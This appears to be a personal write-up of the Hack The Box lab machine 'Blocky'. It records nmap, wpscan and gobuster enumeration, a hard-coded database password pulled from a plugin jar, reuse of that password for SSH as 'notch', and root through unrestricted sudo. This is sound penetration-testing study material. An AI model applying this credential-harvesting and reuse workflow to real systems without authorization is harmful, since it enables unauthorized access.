





---
tags:
  - jar
group: Linux
---


- Machine : https://app.hackthebox.com/machines/Blocky
- Reference : https://0xdf.gitlab.io/2020/06/30/htb-blocky.html
- Solved : 2025.1.12. (Sun) (Takes 1day)

## Summary
---

1. **Initial Enumeration**
    - **Open Ports**: FTP (21), SSH (22), HTTP (80), Minecraft (25565).
    - **HTTP Service**: Detected `blocky.htb` domain; WordPress with user `notch`.
    - **Plugins Directory**: Found and downloaded `BlockyCore.jar` and `griefprevention.jar`.
    
2. **Web Exploitation**
    - **Jar File Analysis**:
        - `BlockyCore.jar`: Found database credentials (`root:8YsqfCTnvxAUeduzjNSXe22`).
        - `griefprevention.jar`: No useful information.
    - Tested credentials on services, found `notch:8YsqfCTnvxAUeduzjNSXe22` working for SSH.
    
3. **Shell as `notch`**
    - Logged in via SSH using `notch`'s credentials.
    
4. **Privilege Escalation**
    - **Sudo Permissions**: User `notch` allowed to run all commands as any user.
    - **Exploitation**:
        - Executed `sudo -i` to gain a root shell.

### Key Techniques:

- **Jar File Analysis**: Extracted credentials using `jd-gui`.
- **Credential Reuse**: Tested credentials across services to gain access.
- **Privilege Escalation**: Leveraged unrestricted sudo permissions.

---

# Reconnaissance

### Port Scanning

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ./port-scan.sh 10.10.10.37
Performing quick port scan on 10.10.10.37...
Found open ports: 21,22,80,8192,25565
Performing detailed scan on 10.10.10.37...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-12 08:31 UTC
Nmap scan report for 10.10.10.37
Host is up (0.12s latency).

PORT      STATE  SERVICE   VERSION
21/tcp    open   ftp       ProFTPD 1.3.5a
22/tcp    open   ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp    open   http      Apache httpd 2.4.18
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Did not follow redirect to http://blocky.htb
8192/tcp  closed sophos
25565/tcp open   minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
Service Info: Host: 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.82 seconds 
```

- ftp(21) : ProFTPD 1.3.5a is running.. Doesn't allow anonymous loign.
- ssh(22) : Maybe useful after gettting some credentials
- http(80) : Domain name is `blocky.htb`! Let's add this to `/etc/hosts`!
- minecraft(25565) : It's a game "Minecraft"! Let's explore what I can do with it!

### http(80)


Given the wordpreses login page, this one is running upon wordpress.


One post implies that it's under construction, and there might be some services running behind.
Also, the writer is `notch`. Probably one of the user.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ wpscan --url http://blocky.htb -e ap,t,tt,u
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.25
                               
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] Updating the Database ...
[i] Update completed.

[+] URL: http://blocky.htb/ [10.10.10.37]
[+] Started: Sun Jan 12 09:18:04 2025

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.18 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://blocky.htb/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://blocky.htb/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://blocky.htb/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://blocky.htb/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.8 identified (Insecure, released on 2017-06-08).
 | Found By: Rss Generator (Passive Detection)
 |  - http://blocky.htb/index.php/feed/, <generator>https://wordpress.org/?v=4.8</generator>
 |  - http://blocky.htb/index.php/comments/feed/, <generator>https://wordpress.org/?v=4.8</generator>

[+] WordPress theme in use: twentyseventeen
 | Location: http://blocky.htb/wp-content/themes/twentyseventeen/
 | Last Updated: 2024-11-12T00:00:00.000Z
 | Readme: http://blocky.htb/wp-content/themes/twentyseventeen/README.txt
 | [!] The version is out of date, the latest version is 3.8
 | Style URL: http://blocky.htb/wp-content/themes/twentyseventeen/style.css?ver=4.8
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.3 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://blocky.htb/wp-content/themes/twentyseventeen/style.css?ver=4.8, Match: 'Version: 1.3'

[i] User(s) Identified:

[+] notch
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blocky.htb/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Notch
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sun Jan 12 09:33:27 2025
[+] Requests Done: 3039
[+] Cached Requests: 19
[+] Data Sent: 826.033 KB
[+] Data Received: 1.006 MB
[+] Memory used: 310.578 MB
[+] Elapsed time: 00:01:34
```

The scan results shows various feature of the service.
- upload directory
- readme.html file
- One user `notch` is found.



It allows directory listing in `/wp-content/uploads`, but it doesn't seem to have interesting files.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ gobuster dir -u http://blocky.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://blocky.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 289]
/index.php            (Status: 301) [Size: 0] [--> http://blocky.htb/]
/wiki                 (Status: 301) [Size: 307] [--> http://blocky.htb/wiki/]
/wp-content           (Status: 301) [Size: 313] [--> http://blocky.htb/wp-content/]                                                                   
/wp-login.php         (Status: 200) [Size: 2397]
/plugins              (Status: 301) [Size: 310] [--> http://blocky.htb/plugins/]                                                                      
/wp-includes          (Status: 301) [Size: 314] [--> http://blocky.htb/wp-includes/]                                                                  
/javascript           (Status: 301) [Size: 313] [--> http://blocky.htb/javascript/]                                                                   
/wp-trackback.php     (Status: 200) [Size: 135]
/wp-admin             (Status: 301) [Size: 311] [--> http://blocky.htb/wp-admin/]                                                                     
/phpmyadmin           (Status: 301) [Size: 313] [--> http://blocky.htb/phpmyadmin/]
```

##### /wiki



This page is still under construction, but there's a comment about plugin.
Maybe it has to do with `/plugin` we found from `gobuster` scan.

##### /plugins



2 `jar` files are listed here.
Let's download and analyze them using `jd-gui`. (`sudo apt install jd-gui` to install)

##### BlockyCore.jar



Bingo! It exposes DB credential! : `root` : `8YsqfCTnvxAUeduzjNSXe22`
Since we don't have an access to mysql service for now, we can use it when we get a shell!
Of course I tested this credential on ftp, ssh service, but didn't work.

##### griefprevention-1.1....jar



This file has so many classes, but none of them are really useful.
It seems that it has to do with the game.
I googled this plugin to check if there's any exploit, but it was not.


# Shell as `notch`

### Re-use the found credential

So far, we found two usernames (`notch`,`root`) and one password (`8YsqfCTnvxAUeduzjNSXe22`).
I tested `notch` on `ssh` service, and it worked!

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ssh notch@10.10.10.37
notch@10.10.10.37's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Fri Jul  8 07:16:08 2022 from 10.10.14.29
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

notch@Blocky:~$ id
uid=1000(notch) gid=1000(notch) groups=1000(notch),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
notch@Blocky:~$ whoami
notch
```

I got `notch`'s shell!


# Shell as `root`

### Enumeration

```bash
notch@Blocky:~$ sudo -l
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```

For the low-hanging fruit, I checked `sudo` command, and found out that current user `notch` can run `sudo` command with any commands as any user.

### Exploit `sudo` to get `root` shell

Let's exploit this to spawn a `root` shell.

```bash
notch@Blocky:~$ sudo -i
root@Blocky:~# whoami
root
root@Blocky:~# id
uid=0(root) gid=0(root) groups=0(root)
```

I got `root` shell!